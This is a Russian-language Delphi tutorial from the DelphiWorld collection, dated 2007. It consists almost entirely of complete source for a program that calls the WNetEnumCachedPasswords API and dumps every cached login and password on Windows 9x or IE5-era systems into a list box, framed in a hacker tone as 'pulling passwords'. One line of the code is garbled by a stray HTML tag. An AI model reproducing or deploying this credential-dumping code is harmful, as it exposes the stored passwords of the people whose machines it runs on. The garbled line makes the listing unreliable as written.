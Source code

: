 ```yaml
---
Title: Тянем пароли из кэша
Date: 01.01.2007
---
```



Тянем пароли из кэша
====================

::: {.date}
01.01.2007
:::

Так, сегодня мы рассмотрим как можно взять кэшированные пароли из 9x
винды, а также из винды, где в установленном виде есть 5-я иешка (хотя
может и 4-ой хватит:)

    unit Unit1;
     
    interface
     
    uses
      Windows, SysUtils, Classes, Forms, ShellAPI, Controls, StdCtrls;
     
    type
        TForm1 = class(TForm)
        GroupBox1: TGroupBox;
        ListBox: TListBox;
        Label1: TLabel;
        Label2: TLabel;
        procedure Label1Click(Sender: TObject);
        procedure FormShow(Sender: TObject);
      private
        { Private declarations }
      public
        { Public declarations }
        hMPR: THandle;
    end;
     
    // Отсюда мы можем заключить что должно валяться на форме,
    // надеюсь вы сами всё закидаете, а если нет, то вам дорога в хелпы.
     
    var
      Form1: TForm1;
     
    const
      Count: Integer = 0;
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; stdcall;
     
    implementation
    {$R *.DFM}
     
    function WNetEnumCachedPasswords(lp: lpStr; w: Word; b: Byte;
    PC: PChar; dw: DWord): Word; external mpr name 'WNetEnumCachedPasswords';
     
    // Объявляем функцию внешней, надеюсь вы поняли
    // каким макаром, или вам опять в хелпы
     
    type
      PWinPassword = ^TWinPassword;
      TWinPassword = record
      EntrySize: Word;
      ResourceSize: Word;
      PasswordSize: Word;
      EntryIndex: Byte;
      EntryType: Byte;
      PasswordC: Char;
    end;
     
    // Объявляем все типы, которые будем юзать в проге.
     
    var
      WinPassword: TWinPassword;
     
    // Собственно переменные :-)
     
    function AddPassword(WinPassword: PWinPassword; dw: DWord): LongBool; stdcall;
    var
      Password: string;
      PC: array[0..$FF] of Char;
    begin
      inc(Count);
      // Увеличиваем число паролей на 1
      Move(WinPassword.PasswordC, PC, WinPassword.ResourceSize);
      // Получаем в PC пароль
      PC[WinPassword.ResourceSize] := #0;
      CharToOem(PC, PC);
      Password := StrPas(PC);
      // После недолгих преобразований в Password имеем кэшированный логин
      Move(WinPassword.PasswordC, PC, WinPassword.PasswordSize + WinPassword.ResourceSize);
      Move(PC[WinPassword.ResourceSize], PC, WinPassword.PasswordSize);
      PC[WinPassword.PasswordSize] := #0;< BR> CharToOem(PC, PC);
      // Теперь в PC имеем пароль
      Password := Password + ': ' + StrPas(PC);
      // Разделяем логин и пароль двуеточием...
      Form1.ListBox.Items.Add(Password);
      // ...и добавляем в ListBox на форме
      Result := True;
      // Возвращаемся с положительным результатом
    end;
     
    procedure TForm1.Label1Click(Sender: TObject);
    begin
      // при нажатии на лэйбл открываем окошко ие с нашим любимым сайтом :-)
      ShellExecute(GetDesktopWindow, 'open', 'http://www.lamerov.net', nil, nil, 0);
    end;
     
    procedure TForm1.FormShow(Sender: TObject);
    begin
      // А теперь сама процедура заполнения всех паролей.
      if WNetEnumCachedPasswords(nil, 0, $FF, @AddPassword, 0) <> 0 then
      // Если не найден кэшированый пароль, то
      begin
        Application.MessageBox('Cant load passwords: User is not logon.',
        'Error', mb_Ok or mb_IconWarning);
        Application.Terminate;
        // Выдаем сообщение об этом
      end
      // иначе,
      else
      if Count = 0 then
        // если паролей всего 0 то тоже об этом сообщаем
        ListBox.Items.Add('No passwords found...');
    end;
     
    end.

Вы наверное спросите: как же все таки дельфи попадает туда куда нам
нужно, то есть на функцию обработки паролей и почемы она кэшит их всех,
хотя функцию вызывали всего одни раз, а очень просто. Помните строку
WNetEnumCachedPasswords(nil, 0, \$FF, \@AddPassword, 0) так вот она все
и делает. Надеюсь вопросов не осталось.

<https://delphiworld.narod.ru/>

DelphiWorld 6.0

